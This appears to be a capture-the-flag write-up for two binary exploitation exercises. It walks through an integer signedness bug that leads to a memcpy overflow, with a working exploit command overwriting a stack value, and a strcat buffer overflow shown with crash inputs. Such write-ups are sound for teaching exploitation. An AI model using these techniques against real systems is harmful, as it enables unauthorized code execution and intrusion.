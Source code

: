 usage is: "./bonus1 (number < 10) string"

We can see the number is evaluated twice. It has to be smaller than 10.
Then this number is multiplied by 4.

### Resolve

The number is stored in `esp+0x3c` and the `memcpy` destination is stored in `esp+0x14`

```shell
p /d 0x3c - 0x14
  $1 = 40 # bytes between them
```

To overwrite the number, we have to write 40 characters + 4 bits for the value `0x574f4c46` => 44 bits.

As `memcpy` takes a `size_t` (unsigned) and `atoi` returns an int, we can use negatives values, to pass the first comparison and then override the number value.

We need 44 chars. Lets cast -44 as unsigned int and divide by 4 the result.

```shell
gdb-peda$ p /u -44
  $4 = 4294967252
gdb-peda$ p /d 4294967252 / 4
  $5 = 1073741813

~/bonus1 -1073741813 `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
```

---

## Bonus2 - strcat overflow

usage is: `~/bonus0 username_part1 username_part2`

The program displays "Hello + `username`" to a username in different languages considering an environment variable "LANG".

The problem is `strcat` that concatenates two strings inside a buffer not big enough.

If `username_part1` has a length greater than `0x12`, the final username will concatenate `username_part1` and `username_part2`

### Resolve

```shell
./bonus2 `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped

./bonus2 `python -c "print 'A' * 0x27"` `python -c "print 'A' * 0x20"`
./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
